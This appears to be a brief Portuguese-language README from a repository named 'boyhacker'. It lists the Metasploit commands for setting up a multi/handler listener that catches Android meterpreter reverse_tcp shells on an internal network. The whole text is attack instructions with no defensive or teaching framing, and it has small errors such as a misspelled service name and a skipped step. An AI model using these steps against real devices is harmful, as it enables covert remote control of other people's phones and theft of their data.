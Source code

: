 # boyhacker

COMO CONFIGURAR O METASPLOIT EM REDE INTERNA ?
1 - msfdb init
2 service postgresp
3 - msfconsole
4 - use exploit/multi/handler
5- set payload android/meterpreter/reverse_tcp
6 - LHOST ip que foi gerado no payload(ETH0)
7 - LPORT porta que foi gerado o payload
8 - show options (verifique que a porta e o ip estejam em YES, se sim ")
10 - exploit
